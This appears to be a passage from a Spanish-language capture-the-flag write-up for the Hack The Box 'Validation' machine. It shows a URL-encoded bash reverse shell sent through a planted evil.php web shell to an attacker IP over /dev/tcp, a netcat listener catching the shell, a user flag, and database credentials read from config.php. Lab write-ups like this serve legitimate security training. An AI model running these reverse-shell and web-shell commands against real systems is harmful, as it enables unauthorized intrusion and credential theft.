 ```
bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/1234 0>%261'
```

Cabe destacar que corresponde a una variación de las reverse shell de [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), debido a hay que aplicar url encode a los caracteres especiales para que los pueda interpretar, entonces:

```
http://10.10.11.116/evil.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/1234 0>261'
```


Luego de ejecutar la instrucción, ya teniamos `netcat` previamente escuchando por el puerto 1234:

```
sudo nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.116] 37056
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
```

Podemos observar que hemos ingresado correctamente a la máquina.

```
www-data@validation:/var/www/html$ ls
ls
account.php  config.php  css  index.php  js
```

Ahora buscaremos la flag de usuario:
```
www-data@validation:/home/htb# cat user.txt
cat user.txt
97661213f37a875cc5951
```

¡Bien! tenemos la flag.

## Escalada de privilegios


En primer lugar, inspeccionaremos estos archivos por si hay información:

```
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
Observamos un usuario y una contraseña. Sin embargo, el usuario no existe:
```
www-data@validation:/var/www/html$ id uhc
id uhc
id: 'uhc': no such user
```
